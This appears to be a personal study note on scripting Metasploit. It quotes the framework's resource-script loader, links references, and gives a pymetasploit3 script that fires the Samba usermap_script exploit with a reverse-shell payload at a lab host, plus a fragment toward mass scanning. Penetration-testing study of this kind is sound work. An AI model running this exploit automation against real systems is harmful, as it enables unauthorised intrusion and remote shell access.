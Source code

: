 ```yaml
---
title: Metasploit scripting and more
created: '2024-03-31T04:25:36.000Z'
modified: '2024-05-30T07:12:30.820Z'
---
```


# Metasploit scripting and more

the way metasploit loads resource script:

```ruby
# file: lib/msf/base/sessions/command_shell.rb
  def execute_file(full_path, args)
    if File.extname(full_path) == '.rb'
      Rex::Script::Shell.new(self, full_path).run(args)
    else
      load_resource(full_path) # usually *.rc files
    end
  end

```

the `Shell.new`:

```ruby
# lib/rex/shell/base.rb
  def run(args=[])
    self.args = args = args.flatten
    begin
      eval(::File.read(self.path, ::File.size(self.path)), binding )
    rescue ::Interrupt
    rescue ::Rex::Script::Completed
    rescue ::Exception => e
      self.error = e
      raise e
    end
  end

```
the  `load_resource`:

```ruby
# file: lib/rex/ui/text/resource.rb

# -*- coding: binary -*-
require 'erb'

module Rex
module Ui
module Text

module Resource

  # Processes a resource script file for the console.
  #
  # @param path [String] Path to a resource file to run
  # @return [void]
  def load_resource(path)
    if path == '-'
      resource_file = $stdin.read
      path = 'stdin'
    elsif ::File.exist?(path)
      resource_file = ::File.read(path)
    else
      print_error("Cannot find resource script: #{path}")
      return
    end

    # Process ERB directives first
    print_status "Processing #{path} for ERB directives."
    erb = ERB.new(resource_file)
    processed_resource = erb.result(binding)

    lines = processed_resource.each_line.to_a
    bindings = {}
    while lines.length > 0

      line = lines.shift
      break if not line
      line.strip!
      next if line.length == 0
      next if line =~ /^#/

      # Pretty soon, this is going to need an XML parser :)
      # TODO: case matters for the tag and for binding names
      if line =~ /<ruby/
        if line =~ /\s+binding=(?:'(\w+)'|"(\w+)")(>|\s+)/
          bin = ($~[1] || $~[2])
          bindings[bin] = binding unless bindings.has_key? bin
          bin = bindings[bin]
        else
          bin = binding
        end
        buff = ''
        while lines.length > 0
          line = lines.shift
          break if not line
          break if line =~ /<\/ruby>/
          buff << line
        end
        if ! buff.empty?
          print_status("resource (#{path})> Ruby Code (#{buff.length} bytes)")
          begin
            eval(buff, bin)
          rescue ::Interrupt
            raise $!
          rescue ::Exception => e
            print_error("resource (#{path})> Ruby Error: #{e.class} #{e} #{e.backtrace}")
          end
        end
      else
        print_line("resource (#{path})> #{line}")
        run_single(line)
      end
    end
  end

end

end
end
end

```

---

vulnerability scanners:

https://dradis.com/ce/

nessus

nexpose

openvas

---

[metasploit-framework](https://rubygems.org/gems/metasploit-framework) is a ruby gem.

---

https://www.infosecmatter.com/metasploit-module-library/

https://rubyfu.net/module-0x5-or-exploitation-kung-fu/metasploit/auxiliary-module

---

[mad-metasploit](https://github.com/hahwul/mad-metasploit) custom metasploit scripts

---

[metasploit unleashed](https://www.offsec.com/metasploit-unleashed/)

[official metasploit documentation](https://docs.metasploit.com/)

---

metasploit has enabled ssl by default. http will not work.

install package:

```bash
pip3 install pymetasploit3
```

launch metasploit background rpc service:
```bash
# get help
msfrpcd -h
# start background service
msfrpcd -P lazero
# or if you want foreground service
msfrpcd -P lazero -f
```


run script:

```python
from pymetasploit3.msfrpc import MsfRpcClient
import os

PWD = "lazero"

custom_module_path = "custom_msf_module"
assert os.path.exists(custom_module_path), (
    "Custom module path not found at: '%s'" % custom_module_path
)

# write custom python modules with:
# https://docs.metasploit.com/docs/development/developing-modules/external-modules/writing-external-python-modules.html


client = MsfRpcClient(
    password=PWD, ssl=True
)  # requires ssl by default. otherwise won't work

# the module structure must be identical to the one at , otherwise it will not load.
client.core.addmodulepath(os.path.abspath(custom_module_path))

exploit_id = "multi/samba/usermap_script"
exp_mod = client.modules.use("exploit", exploit_id)

RHOST = "172.16.194.172"
LHOST = "172.16.194.163"

exp_mod.runoptions["RHOST"] = RHOST  # this host is not running.
exp_mod.runoptions["PAYLOAD"] = "cmd/unix/reverse"
exp_mod.runoptions["LHOST"] = LHOST

msf_console = (
    client.consoles.console()
)  # you can manually read/write instead of using below method.
# timeout: 301 seconds.
exploit_run_output = msf_console.run_module_with_output(exp_mod)  # str
print(exploit_run_output)  # now have output. but still it is not streaming.
# you may want to overwrite the original implementation. the data is actually produced step by step.

run_output_file = "samba_usermap_script_output.log"
with open(run_output_file, "w+") as f:
    f.write(exploit_run_output)
print("[metasploit]", "output file saved at:", run_output_file)
# thank you very much.

```

---

To do mass scanning, first we need to obtain the default RPORT for each exploit.

```python
module_types = ['exploits','auxiliary', "encoders", "nops", "payloads", 'post']

for mt_plural in module_types:
    module_type = mt_plural.rstrip('s')
    for name in all_module_names:
        mod = client.modules.use(module_type, name)
        # get default RPORT
        default_rport = mod.runoptions.get("RPORT", None)
```
